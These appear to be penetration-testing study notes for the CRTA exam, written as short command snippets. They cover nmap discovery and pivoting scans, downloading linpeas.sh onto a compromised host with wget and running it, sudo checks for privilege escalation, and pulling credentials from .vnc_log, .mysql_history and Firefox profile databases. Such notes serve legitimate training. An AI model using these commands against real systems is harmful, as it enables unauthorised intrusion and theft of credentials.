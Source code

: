# CRTA

## Initial Access

### Discover the hosts

```bash
nmap -sn IP/MASK
```



### Port Scan

```bash
nmap -sC -sV IP
```





## External Web Site



Intercept the request with Burp Suite to try get some injection

### SSRF

...





## Enumeration

Once we have access to the machine, using LinPeas to get information

<pre class="language-bash"><code class="lang-bash"><strong># copy linpeas.sh and run this on att machine
</strong><strong>python3 -m http.server
</strong>
wget http://IP/linpeas.sh
chmod +x lin.sh
./lin.sh
</code></pre>

Manual enumeration for linux priv esc

```bash
sudo -l
```



### Scan another network

if the pwnd machine has 2 or more network interface we can use NMAP on victim machine (if it's installed) and discover another hosts.&#x20;

```bash
nmap -sn NETWORK_2/MASK
```

When we find some computers on that network we can perform further scan with nmap

```bash
nmap -sC -sV IP_2
```



### Find credentials to AD Domain

In a linux machine we can find some windows credentials in some log files like these:

```bash
cat .vnc_log
cat .mysql_history
```



### Through the Firefox Data

If we have a .mozilla directory, the dir might contains some interesting data.

We can check into the bookmarks.

```bash
cd ~/.mozilla/firefox/...default-release
ls
sqlite3 places.sqlite

> .tables
> SELECT * FROM moz_bookmarks;
```
